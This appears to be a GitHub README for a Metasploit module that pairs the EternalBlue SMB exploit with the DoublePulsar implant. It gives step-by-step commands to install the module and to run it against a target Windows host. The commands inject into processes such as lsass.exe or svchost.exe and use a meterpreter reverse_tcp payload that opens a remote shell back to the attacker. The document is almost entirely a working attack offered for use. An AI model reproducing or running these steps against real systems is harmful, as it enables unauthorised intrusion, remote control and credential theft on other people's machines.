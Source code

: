 # Eternalblue-Doublepulsar-Metasploit

# How to Install
<pre>
~]# dpkg --add-architecture i386 && apt-get update -y && apt-get install wine32 -y
~]# git clone https://github.com/grglzrv/Eternalblue-Doublepulsar-Metasploit.git
~]# cd Eternalblue-Doublepulsar-Metasploit
~]# cp eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb
<br>
<style>
strong {color:red;}
</style>
<strong>Note !!!</strong>: Also you may copy 'deps' directory to /usr/share/metasploit-framework/modules/exploits/windows/smb
<br>
~]# mkdir -p /root/.wine/drive_c/
</pre>
# How to use
<pre>
~]# service postgresql start
~]# service postgresql enable
~]# msfconsole
- reload_all 
- use exploit/windows/smb/eternalblue_doublepulsar
- show options
</pre>
<br>
 <strong>For Windows x64</strong>
<br>
<pre>
 - set RHOST (Target IP)
 - set PROCESSINJECT svchost.exe or set PROCESSINJECT lsass.exe
 - set TARGETARCHITECTURE x64
 - set payload windows/x64/meterpreter/reverse_tcp
 - set LHOST (Local IP, check it with 'ip a')
 - show targets
 - set target 8
 - run or exploit
 </pre>
 <br>
 <strong>For Windows x86</strong>
 <br>
<pre>
 - set RHOST (Target IP)
 - set PROCESSINJECT svchost.exe or set PROCESSINJECT explorer.exe
 - set TARGETARCHITECTURE x86
 - set payload windows/meterpreter/reverse_tcp
 - set LHOST (Local IP, check it with 'ip a')
 - show targets
 - set target 8
 - run or exploit
 </pre>
 ## Have a Fun! :)
